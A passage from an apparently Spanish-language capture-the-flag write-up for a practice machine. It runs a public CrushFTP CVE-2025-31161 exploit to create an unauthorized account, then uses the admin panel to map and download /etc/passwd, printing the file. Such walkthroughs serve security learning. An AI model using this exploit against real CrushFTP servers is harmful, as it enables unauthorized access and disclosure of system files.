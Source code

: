 URL = [CrushFTP CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```shell
python3 exploit.py --target_host ftp.soulmate.htb --port 80 --target_user ftp.soulmate.htb --new_user diseo --password diseo
```

Info:

```
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: diseo
   [*] Password: diseo.
```

Veremos que ha funcionado aparentemente, vamos a entrar con dichas credenciales que se acaban de crear, una vez dentro veremos que ha funcionado viendo lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-21 131132.png" alt=""><figcaption></figcaption></figure>

Si investigamos que hace este `software` veremos que hay un boton `Admin`, si entramos ahi, nos iremos a `User Manager`, dentro de este campo podremos ver usuarios a la izquierda, vamos a seleccionar el usuario `crushadmin` y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 141638.png" alt=""><figcaption></figcaption></figure>

Vamos a ir `/etc/passwd` y nos lo vamos a pasar a la derecha quedando de esta forma:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 141714.png" alt=""><figcaption></figcaption></figure>

Ahora si le damos a `Save` abajo a la derecha y nos vamos a `Files` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 141801.png" alt=""><figcaption></figcaption></figure>

Vemos que se nos paso bien el archivo, vamos a darle un click y se nos descargara, si leemos dicho archivo...

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
java:x:65532:65532:Account created by apko:/home/java:/bin/sh
```
